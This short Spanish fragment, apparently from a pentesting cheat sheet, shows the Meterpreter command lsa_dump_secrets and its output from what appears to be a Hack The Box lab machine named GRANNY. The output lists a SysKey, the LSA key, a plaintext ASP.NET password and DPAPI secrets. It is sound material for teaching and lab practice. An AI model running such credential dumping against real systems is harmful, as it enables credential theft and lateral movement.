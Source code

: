 ### MSF - Volcado de Secretos LSA

```plaintext
meterpreter > lsa_dump_secrets
```

```yaml
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb

Local name : GRANNY ( S-1-5-21-1709780765-3897210020-3926566182 )
Domain name : HTB

Policy subsystem is : 1.7
LSA Key : ada60ee248094ce782807afae1711b2c

Secret  : aspnet_WP_PASSWORD
cur/text: Q5C'181g16D'=F

Secret  : D6318AF1-462A-48C7-B6D9-ABB7CCD7975E-SRV
cur/hex : e9 1c c7 89 aa 02 92 49 84 58 a4 26 8c 7b 1e c2 

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 7a 3b 72 f3 cd ed 29 ce b8 09 5b b0 e2 63 73 8a ab c6 ca 49 2b 31 e7 9a 48 4f 9c b3 10 fc fd 35 bd d7 d5 90 16 5f fc 63 
    full: 7a3b72f3cded29ceb8095bb0e263738aabc6ca492b31e79a484f9cb310fcfd35bdd7d590165ffc63
Secret  : L$HYDRAENCKEY_28ada6da-d622-11d1-9cb9-00c04fb16e75
cur/hex : 52 53 41 32 48 00 00 00 00 02 00 00 3f 00 00 00 01 00 01 00 b3 ec 6b 48 4c ce e5 48 f1 cf 87 
```

